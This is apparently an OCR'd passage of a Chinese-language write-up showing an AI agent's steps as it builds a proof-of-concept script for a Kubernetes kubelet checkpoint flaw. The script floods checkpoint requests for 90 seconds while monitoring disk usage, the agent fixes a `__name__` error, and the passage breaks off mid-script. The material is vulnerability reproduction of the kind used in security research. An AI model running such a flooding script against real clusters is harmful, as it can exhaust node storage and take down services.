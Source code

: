 ```
              while time.time() - start_time < 90:  # 运行90秒                                                                                                                    
                  executor.submit(send_checkpoint_request)                                                                                                                        
                  monitor_disk_usage()                                                                                                                                            
                  time.sleep(0.5)                                                                                                                                                 
                                                                                                                                                                                  
      finally:                                                                                                                                                                    
          # 清理资源                                                                                                                                                              
          cleanup()                                                                                                                                                               
          monitor_disk_usage()                                                                                                                                                    
                                                                                                                                                                                  
  if __name__ == "__main__":                                                                                                                                                      
      main()                                                                                                                                                                      
 ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── 
Code execution failed at line 'if __name__ == "__main__":
    main()' due to: InterpreterError: The variable `__name__` is not defined.
[Step 3: Duration 87.66 seconds| Input tokens: 12,829 | Output tokens: 3,190]
```
- 步骤4
模型根据错误信息进行代码修改，直接调用`main`函数
```
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ Step 4 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
 ─ Executing parsed code: ─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── 
  # 完整复现脚本（已移除__name__变量）                                                                                                                                            
  import requests                                                                                                                                                                 
  import time                                                                                                                                                                     
  import subprocess                                                                                                                                                               
  import shutil                                                                                                                                                                   
  from concurrent.futures import ThreadPoolExecutor                                                                                                                               
  from urllib3.exceptions import InsecureRequestWarning                                                                                                                           
                                                                                                                                                                                  
  requests.packages.urllib3.disable_warnings(InsecureRequestWarning)                                                                                                              
                                                                                                                                                                                  
  POD_NAME = "test-pod"                                                                                                                                                           
  CHECKPOINT_PATH = "/var/lib/kubelet/checkpoints"                                                                                                                                
                                                                                                                                                                                  
  def create_test_pod():                                                                                                                                                          
      pod_manifest = f"""                                                                                                                                                         
```